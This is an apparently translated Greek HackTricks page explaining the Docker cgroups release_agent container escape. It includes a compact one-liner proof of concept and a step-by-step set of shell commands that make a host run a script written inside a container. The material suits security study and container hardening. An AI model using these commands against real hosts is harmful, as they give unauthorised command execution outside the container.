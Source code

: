 # Docker release\_agent cgroups escape

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


**Για περισσότερες λεπτομέρειες, ανατρέξτε στην** [**αρχική ανάρτηση του blog**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)**.** Αυτό είναι απλώς μια περίληψη:

Original PoC:
```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
Η απόδειξη της έννοιας (PoC) δείχνει μια μέθοδο εκμετάλλευσης των cgroups δημιουργώντας ένα αρχείο `release_agent` και ενεργοποιώντας την εκτέλεσή του για να εκτελέσει αυθαίρετες εντολές στον οικοδεσπότη του κοντέινερ. Ακολουθεί μια ανάλυση των βημάτων που εμπλέκονται:

1. **Προετοιμάστε το Περιβάλλον:**
* Δημιουργείται ένας φάκελος `/tmp/cgrp` για να χρησιμεύσει ως σημείο προσάρτησης για το cgroup.
* Ο ελεγκτής cgroup RDMA προσαρτάται σε αυτόν τον φάκελο. Σε περίπτωση απουσίας του ελεγκτή RDMA, προτείνεται η χρήση του ελεγκτή cgroup `memory` ως εναλλακτική.
```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```
2. **Ρύθμιση του Παιδικού Cgroup:**
* Ένα παιδικό cgroup με όνομα "x" δημιουργείται μέσα στον προσαρτημένο κατάλογο cgroup.
* Οι ειδοποιήσεις ενεργοποιούνται για το cgroup "x" γράφοντας 1 στο αρχείο notify\_on\_release του.
```shell
echo 1 > /tmp/cgrp/x/notify_on_release
```
3. **Ρύθμιση του Release Agent:**
* Η διαδρομή του κοντέινερ στον οικοδεσπότη αποκτάται από το αρχείο /etc/mtab.
* Το αρχείο release\_agent του cgroup ρυθμίζεται στη συνέχεια για να εκτελεί ένα σενάριο με όνομα /cmd που βρίσκεται στη ληφθείσα διαδρομή του οικοδεσπότη.
```shell
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
4. **Δημιουργία και Ρύθμιση του Script /cmd:**
* Το script /cmd δημιουργείται μέσα στο κοντέινερ και ρυθμίζεται να εκτελεί ps aux, ανακατευθύνοντας την έξοδο σε ένα αρχείο με όνομα /output στο κοντέινερ. Ο πλήρης δρόμος του /output στον κεντρικό υπολογιστή καθορίζεται.
```shell
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```
5. **Ενεργοποίηση της Επίθεσης:**
* Μια διαδικασία ξεκινά εντός του "x" child cgroup και τερματίζεται αμέσως.
* Αυτό ενεργοποιεί τον `release_agent` (το σενάριο /cmd), το οποίο εκτελεί ps aux στον host και γράφει την έξοδο στο /output εντός του container.
```shell
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
